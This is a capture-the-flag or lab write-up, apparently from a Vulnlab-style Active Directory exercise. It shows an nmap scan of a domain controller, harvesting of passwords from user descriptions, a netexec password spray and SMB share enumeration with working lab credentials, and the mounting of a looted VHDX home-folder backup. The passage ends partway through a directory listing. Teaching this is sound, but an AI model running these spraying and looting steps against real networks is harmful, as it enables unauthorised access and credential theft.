







As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-04-01 12:54:28Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: eu-ifrit.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: eu-ifrit.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-04-01T12:55:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC03.eu-ifrit.vl
| Issuer: commonName=DC03.eu-ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T02:45:10
| Not valid after:  2026-09-30T02:45:10
| MD5:     4b54 e9c3 447f 12e3 4321 73a4 b6fc 6173
| SHA-1:   c96c d7ba 97b9 f445 cd81 d2fb 0d4b c48e 9efd 4378
| SHA-256: ef18 179a ae9e ddad b120 7888 7242 e2a7 8bdf 54e3 29e6 91f1 483d a6dd 8f3c b990
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQSqJ3H82T4ZpAqRjmNbA2zDANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBEQzAzLmV1LWlmcml0LnZsMB4XDTI2MDMzMTAyNDUxMFoXDTI2
| MDkzMDAyNDUxMFowGzEZMBcGA1UEAxMQREMwMy5ldS1pZnJpdC52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAMRHmqdIMaYI19g61DJJ48ot6cMDako8
| sgusvSBnUosiKR1+QnBPYK5fGmRUpog4pKBePUAqUZ8zbj5k9TXuh+miJB13w0Xz
| W1sZ8fzY4UZxBc67gnIjYjUgLPkOxAXF01Z6dLJ914oq2zZ4wHuPu3qNUZEOWTkr
| cc4NeNP51EsRyYOXIAIxmU/U7bKCbam3vyvEW2n8YjimKSEttecRlU/r9J8h3tRf
| hA4+Oir9lyzlD7vaN1HQiaOKDUaRVi5zpStb+x2GmN+9mScrPFC4fX57+yOKmJRA
| cbDf0MFyrvemUGbHcR6VDp4Gr4XtD6p+Srty6OCQjVkmM/8xSjq+3XECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQANAjH3CHfs1RHazBXm3TiXK1THhPJWhsqqRNo6VLltonjyGAfKB/vW
| jmwGTsxIvGji86gPETFJn00N64kcqdtejgcOttpbcAEqafKnMKgTZR9+nZJ4iNcT
| UGRRfnXajHY8crs0Ov1QEzRYJfeUGfVx63BGByAVza5EXkGNkC1NYCFe4YxhZTXm
| edLEoNvXoaAWF0sbHqRWCiYJ4Rftz3F9mE895gutZFJZB/ITCYT7ZYe64Rvdmo3i
| ynHeHDka9KhZDfuCxIe2eKE7iOFpit+j6Y23QznJlJTwOD0KNeGnhDAnVeg3pQ5C
| kyhUkwaxS+dFTbUUfqrJHrLeCXwCOM7C
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: EU-IFRIT
|   NetBIOS_Domain_Name: EU-IFRIT
|   NetBIOS_Computer_Name: DC03
|   DNS_Domain_Name: eu-ifrit.vl
|   DNS_Computer_Name: DC03.eu-ifrit.vl
|   DNS_Tree_Name: eu-ifrit.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T12:55:20+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
55780/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
55781/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
55785/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
55790/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
55822/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/1%OT=53%CT=%CU=%PV=Y%G=N%TM=69CD15E0%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=109%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=F7%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 36.774 days (since Mon Feb 23 19:21:43 2026)
TCP Sequence Prediction: Difficulty=247 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: DC03; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: DC03, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:e0:06 (VMware)
| Names:
|   DC03<00>             Flags: <unique><active>
|   EU-IFRIT<00>         Flags: <group><active>
|   EU-IFRIT<1c>         Flags: <group><active>
|   DC03<20>             Flags: <unique><active>
|   EU-IFRIT<1b>         Flags: <unique><active>
| Statistics:
|   00 50 56 94 e0 06 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-01T12:55:20
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64528/tcp): CLEAN (Timeout)
|   Check 2 (port 20101/tcp): CLEAN (Timeout)
|   Check 3 (port 26449/udp): CLEAN (Timeout)
|   Check 4 (port 39071/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

```

# The first AD analysis

Parsing the data in the domain did not show any interesting permissions assigned to my current user more than RDS rights.



Patrick ford is the DA, whcih makes him the juicy target:


Plus I can observe a 3 way trust with a bidirectional(parent/child) as next step towards the IT domain plus a one-way toward possibly the final one.



I did not find any users that was compromisable via common attacks like Kerberoast or AsReproast. So checking for user descriptions I can see some credentials are saved there and might be worth spraying?

```bash
SMB         172.16.41.14    445    DC03             Mohamed.Wright                2024-07-14 08:54:41 0        
SMB         172.16.41.14    445    DC03             Stacey.Barrett                2024-07-14 08:54:41 0        
SMB         172.16.41.14    445    DC03             Gail.Joyce                    2024-07-14 08:54:41 0        
SMB         172.16.41.14    445    DC03             Marilyn.Sanderson             2024-07-14 08:54:42 0        
SMB         172.16.41.14    445    DC03             Gerard.Thomas                 2024-07-14 08:54:42 0        
SMB         172.16.41.14    445    DC03             Jack.Smith                    2024-07-14 08:54:42 0        
SMB         172.16.41.14    445    DC03             Patrick.Ford                  2024-07-14 08:54:42 0        
SMB         172.16.41.14    445    DC03             client-admin                  2024-07-14 12:18:37 0       Initial Password: Anfang01! 
SMB         172.16.41.14    445    DC03             backup-admin                  2024-07-14 12:19:20 0       Initial Password: Anfang01! 

```

A quick password spray shows that only one of the 2 service account still works, and it seems also part of the Server Admins which should give more access:



```bash
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\Gerard.Thomas:Anfang01! STATUS_LOGON_FAILURE 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\Jack.Smith:Anfang01! STATUS_LOGON_FAILURE 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\Patrick.Ford:Anfang01! STATUS_LOGON_FAILURE 
SMB         172.16.41.14    445    DC03             [+] eu-ifrit.vl\client-admin:Anfang01! 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\backup-admin:Anfang01! Error while reading from remote

```

Unfortunately this user does not possess more permission than the other one I had already.

# Samba

Since the inital AD did not produce anything interesting I will check traces of custom Samba shares and i see indeed 2 on this DC:

```bash
└─$ netexec smb 172.16.41.14 -u Annette.King -p 'PenEuIfrit527#' --shares
SMB         172.16.41.14    445    DC03             [*] Windows Server 2022 Build 20348 x64 (name:DC03) (domain:eu-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.14    445    DC03             [+] eu-ifrit.vl\Annette.King:PenEuIfrit527# 
SMB         172.16.41.14    445    DC03             [*] Enumerated shares
SMB         172.16.41.14    445    DC03             Share           Permissions     Remark
SMB         172.16.41.14    445    DC03             -----           -----------     ------
SMB         172.16.41.14    445    DC03             ADMIN$                          Remote Admin
SMB         172.16.41.14    445    DC03             C$                              Default share
SMB         172.16.41.14    445    DC03             home-backups$   READ            home folder backups
SMB         172.16.41.14    445    DC03             homes                           user home directories
SMB         172.16.41.14    445    DC03             IPC$            READ            Remote IPC
SMB         172.16.41.14    445    DC03             NETLOGON        READ            Logon server share 
SMB         172.16.41.14    445    DC03             SYSVOL          READ            Logon server share 
SMB         172.16.41.14    445    DC03             transfer        READ,WRITE      temporary file exchange
                                                                                                               
```

A quick check at the home-backups shows traces of a virtual disk?

```bash
# use home-backups$
# ls
drw-rw-rw-          0  Sun Jul 14 11:26:35 2024 .
drw-rw-rw-          0  Fri Apr 25 08:21:53 2025 ..
-rw-rw-rw-  239075328  Sun Jul 14 12:26:54 2024 1e3ae21e407bc487.vhdx
# get 1e3ae21e407bc487.vhdx


```

And that file seems like it is the backup of the home folders?

```bash
┌──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ virt-filesystems -a 1e3ae21e407bc487.vhdx --long --parts --blkdev
Name       Type       MBR  Size       Parent
/dev/sda1  partition  -    16759808   /dev/sda
/dev/sda2  partition  -    190840832  /dev/sda
/dev/sda   device     -    209715200  -
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ guestmount -a 1e3ae21e407bc487.vhdx -m /dev/sda2 --ro mount
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ cd mount          
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/ifrit/mount]
└─$ ll
total 0
drwxrwxrwx 1 root root 0 Jul 14  2024 '$RECYCLE.BIN'
drwxrwxrwx 1 root root 0 Jul 14  2024  Aaron.Jones
drwxrwxrwx 1 root root 0 Jul 14  2024  Abigail.Wallace
drwxrwxrwx 1 root root 0 Jul 14  2024  Aimee.Elliott
drwxrwxrwx 1 root root 0 Jul 14  2024  Aimee.Knight
drwxrwxrwx 1 root root 0 Jul 14  2024  Alan.Fox
drwxrwxrwx 1 root root 0 Jul 14  2024  Amy.Woods
drwxrwxrwx 1 root root 0 Jul 14  2024  Andrea.Davies
drwxrwxrwx 1 root root 0 Jul 14  2024  Anne.Mitchell
drwxrwxrwx 1 root root 0 Jul 14  2024  Annette.King
drwxrwxrwx 1 root root 0 Jul 14  2024  Anthony.Heath
drwxrwxrwx 1 root root 0 Jul 14  2024  Anthony.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Anthony.Thompson
drwxrwxrwx 1 root root 0 Jul 14  2024  Arthur.Kirk
drwxrwxrwx 1 root root 0 Jul 14  2024 "Ashley.O'Neill"
drwxrwxrwx 1 root root 0 Jul 14  2024  Barry.Cox
drwxrwxrwx 1 root root 0 Jul 14  2024  Barry.Foster
drwxrwxrwx 1 root root 0 Jul 14  2024  Ben.Brown
drwxrwxrwx 1 root root 0 Jul 14  2024  Benjamin.Walker
drwxrwxrwx 1 root root 0 Jul 14  2024  Bernard.Davey
drwxrwxrwx 1 root root 0 Jul 14  2024  Bernard.Turner
drwxrwxrwx 1 root root 0 Jul 14  2024  Bernard.Walters
drwxrwxrwx 1 root root 0 Jul 14  2024  Beverley.Connolly
drwxrwxrwx 1 root root 0 Jul 14  2024  Brett.Roberts
drwxrwxrwx 1 root root 0 Jul 14  2024  Bruce.Hewitt
drwxrwxrwx 1 root root 0 Jul 14  2024  Callum.Brookes
drwxrwxrwx 1 root root 0 Jul 14  2024  Cameron.White
drwxrwxrwx 1 root root 0 Jul 14  2024  Caroline.Barker
drwxrwxrwx 1 root root 0 Jul 14  2024  Caroline.Hunter
drwxrwxrwx 1 root root 0 Jul 14  2024  Caroline.Thornton
drwxrwxrwx 1 root root 0 Jul 14  2024  Caroline.Wilson
drwxrwxrwx 1 root root 0 Jul 14  2024  Carolyn.Hughes
drwxrwxrwx 1 root root 0 Jul 14  2024  Carolyn.Hunt
drwxrwxrwx 1 root root 0 Jul 14  2024  Charles.Sullivan
drwxrwxrwx 1 root root 0 Jul 14  2024  Cheryl.Evans
drwxrwxrwx 1 root root 0 Jul 14  2024  Cheryl.Roberts
drwxrwxrwx 1 root root 0 Jul 14  2024  Chloe.Scott
drwxrwxrwx 1 root root 0 Jul 14  2024  Christopher.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Claire.Lewis
drwxrwxrwx 1 root root 0 Jul 14  2024  Clare.Preston
drwxrwxrwx 1 root root 0 Jul 14  2024  Colin.Faulkner
drwxrwxrwx 1 root root 0 Jul 14  2024  Connor.Cook
drwxrwxrwx 1 root root 0 Jul 14  2024  Damien.Hartley
drwxrwxrwx 1 root root 0 Jul 14  2024  Daniel.Clark
drwxrwxrwx 1 root root 0 Jul 14  2024  Daniel.Gibson
drwxrwxrwx 1 root root 0 Jul 14  2024  Danny.Roberts
drwxrwxrwx 1 root root 0 Jul 14  2024  Dawn.Clarke
drwxrwxrwx 1 root root 0 Jul 14  2024  Denis.Davies
drwxrwxrwx 1 root root 0 Jul 14  2024  Denise.Begum
drwxrwxrwx 1 root root 0 Jul 14  2024  Denis.Wood
drwxrwxrwx 1 root root 0 Jul 14  2024  Derek.Giles
drwxrwxrwx 1 root root 0 Jul 14  2024  Diana.James
drwxrwxrwx 1 root root 0 Jul 14  2024  Diane.Carroll
drwxrwxrwx 1 root root 0 Jul 14  2024  Dominic.Heath
drwxrwxrwx 1 root root 0 Jul 14  2024  Dorothy.Walsh
drwxrwxrwx 1 root root 0 Jul 14  2024  Eileen.Andrews
drwxrwxrwx 1 root root 0 Jul 14  2024  Elliott.Carr
drwxrwxrwx 1 root root 0 Jul 14  2024  Elliott.Kay
drwxrwxrwx 1 root root 0 Jul 14  2024  Elliott.Nicholls
drwxrwxrwx 1 root root 0 Jul 14  2024  Emma.Clark
drwxrwxrwx 1 root root 0 Jul 14  2024  Fiona.Marshall
drwxrwxrwx 1 root root 0 Jul 14  2024  Francesca.Ahmed
drwxrwxrwx 1 root root 0 Jul 14  2024  Frances.Freeman
drwxrwxrwx 1 root root 0 Jul 14  2024  Frederick.Jackson
drwxrwxrwx 1 root root 0 Jul 14  2024  Gail.Cox
drwxrwxrwx 1 root root 0 Jul 14  2024  Gail.Joyce
drwxrwxrwx 1 root root 0 Jul 14  2024  Gareth.Hussain
drwxrwxrwx 1 root root 0 Jul 14  2024  Gareth.Newton
drwxrwxrwx 1 root root 0 Jul 14  2024  Gavin.Dixon
drwxrwxrwx 1 root root 0 Jul 14  2024  Georgina.Burns
drwxrwxrwx 1 root root 0 Jul 14  2024  Gerald.Foster
drwxrwxrwx 1 root root 0 Jul 14  2024  Gerald.Murphy
drwxrwxrwx 1 root root 0 Jul 14  2024  Gerard.Thomas
drwxrwxrwx 1 root root 0 Jul 14  2024  Gillian.Roberts
drwxrwxrwx 1 root root 0 Jul 14  2024  Glen.Marshall
drwxrwxrwx 1 root root 0 Jul 14  2024  Glenn.Rogers
drwxrwxrwx 1 root root 0 Jul 14  2024  Grace.Dunn
drwxrwxrwx 1 root root 0 Jul 14  2024  Heather.Little
drwxrwxrwx 1 root root 0 Jul 14  2024  Henry.Adams
drwxrwxrwx 1 root root 0 Jul 14  2024  Henry.Jordan
drwxrwxrwx 1 root root 0 Jul 14  2024  Hollie.Harrison
drwxrwxrwx 1 root root 0 Jul 14  2024  Hollie.Hunt
drwxrwxrwx 1 root root 0 Jul 14  2024  Hollie.White
drwxrwxrwx 1 root root 0 Jul 14  2024  Iain.Graham
drwxrwxrwx 1 root root 0 Jul 14  2024  Ian.Connor
drwxrwxrwx 1 root root 0 Jul 14  2024  Jack.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024 "Jacob.O'Donnell"
drwxrwxrwx 1 root root 0 Jul 14  2024  Jacqueline.Morley
drwxrwxrwx 1 root root 0 Jul 14  2024  Jade.Perry
drwxrwxrwx 1 root root 0 Jul 14  2024  Jade.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Jake.Kaur
drwxrwxrwx 1 root root 0 Jul 14  2024  James.Cook
drwxrwxrwx 1 root root 0 Jul 14  2024  James.Marshall
drwxrwxrwx 1 root root 0 Jul 14  2024  Jamie.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Jane.Taylor
drwxrwxrwx 1 root root 0 Jul 14  2024  Janice.Stokes
drwxrwxrwx 1 root root 0 Jul 14  2024  Jasmine.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Jasmine.Yates
drwxrwxrwx 1 root root 0 Jul 14  2024  Jemma.Bartlett
drwxrwxrwx 1 root root 0 Jul 14  2024  Jemma.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Jeremy.Austin
drwxrwxrwx 1 root root 0 Jul 14  2024  Joe.Brooks
drwxrwxrwx 1 root root 0 Jul 14  2024  Joe.Nicholls
drwxrwxrwx 1 root root 0 Jul 14  2024  Jonathan.Richardson
drwxrwxrwx 1 root root 0 Jul 14  2024  Jordan.Moore
drwxrwxrwx 1 root root 0 Jul 14  2024  Joseph.Carroll
drwxrwxrwx 1 root root 0 Jul 14  2024  Josephine.Evans
drwxrwxrwx 1 root root 0 Jul 14  2024  Josephine.Walker
drwxrwxrwx 1 root root 0 Jul 14  2024  Josh.Wilson
drwxrwxrwx 1 root root 0 Jul 14  2024  Joyce.Johnson
drwxrwxrwx 1 root root 0 Jul 14  2024  Judith.Harris
drwxrwxrwx 1 root root 0 Jul 14  2024  Judith.Hawkins
drwxrwxrwx 1 root root 0 Jul 14  2024  Julie.Rees
drwxrwxrwx 1 root root 0 Jul 14  2024  June.Murphy
drwxrwxrwx 1 root root 0 Jul 14  2024  Karen.Moore
drwxrwxrwx 1 root root 0 Jul 14  2024  Karl.Thomas
drwxrwxrwx 1 root root 0 Jul 14  2024  Katherine.Osborne
drwxrwxrwx 1 root root 0 Jul 14  2024  Katherine.Williams
drwxrwxrwx 1 root root 0 Jul 14  2024  Kathleen.Taylor
drwxrwxrwx 1 root root 0 Jul 14  2024  Kathleen.Walker
drwxrwxrwx 1 root root 0 Jul 14  2024  Katy.Jones
drwxrwxrwx 1 root root 0 Jul 14  2024  Keith.Howell
drwxrwxrwx 1 root root 0 Jul 14  2024  Keith.Jackson
drwxrwxrwx 1 root root 0 Jul 14  2024  Keith.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Kieran.Parker
drwxrwxrwx 1 root root 0 Jul 14  2024  Kim.Lee
drwxrwxrwx 1 root root 0 Jul 14  2024  Kim.Thomas
drwxrwxrwx 1 root root 0 Jul 14  2024  Kyle.Parker
drwxrwxrwx 1 root root 0 Jul 14  2024  Laura.Robinson
drwxrwxrwx 1 root root 0 Jul 14  2024  Laura.Yates
drwxrwxrwx 1 root root 0 Jul 14  2024  Lauren.Young
drwxrwxrwx 1 root root 0 Jul 14  2024  Lawrence.Stewart
drwxrwxrwx 1 root root 0 Jul 14  2024  Leanne.McCarthy
drwxrwxrwx 1 root root 0 Jul 14  2024  Leigh.Watson
drwxrwxrwx 1 root root 0 Jul 14  2024  Leslie.Ingram
drwxrwxrwx 1 root root 0 Jul 14  2024  Leslie.Willis
drwxrwxrwx 1 root root 0 Jul 14  2024  Liam.Peters
drwxrwxrwx 1 root root 0 Jul 14  2024  Linda.Lee
drwxrwxrwx 1 root root 0 Jul 14  2024  Lucy.Morgan
